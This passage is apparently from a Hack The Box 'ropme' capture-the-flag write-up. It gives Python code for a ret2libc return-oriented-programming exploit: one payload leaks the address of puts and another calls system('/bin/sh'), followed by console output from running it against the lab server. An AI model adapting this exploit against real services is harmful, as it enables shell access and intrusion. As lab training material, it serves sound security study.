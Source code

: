 ```Python
    # Craft new payload
    payload2 = PAD                      # 72 bytes of "A"s
    payload2 += gadget_pop_rdi_ret      # return there when done with main

    # address of "/bin/sh", this will be popped to RDI
    payload2 += ptr(libc_base + 0x18cd57)

    # Address of system. return here after you pop
    payload2 += ptr(libc_base + 0x45390)    


    # Send the payload
    conn.send(payload2 + "\n")

    # Get back an answer, we expect that system("/bin/sh") will run
    print conn.recv(1024)



PAD = "A" * 72

main_addr = ptr(0x400626)
gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
fflush_plt = ptr(0x400510)

puts_got = ptr(0x601018)
NULL = ptr(0x0)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

payload += gadget_pop_rdi_ret   # ret to here
payload += NULL                 # this will be popped to RDI
payload += fflush_plt           # return here

payload += main_addr            # After the fflush, go to main again
                                # Ask the attacker for input again!

remote(payload)
```

This is what we get:

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
Virtual address of puts is: 0x7f96309ad690
Base of libc: 0x7f963093e000
Address of system:  0x7f9630983390
Address of binsh:  0x7f9630acad57
sh: 1: %s%s%s%s%s%s%s%s: not found
```
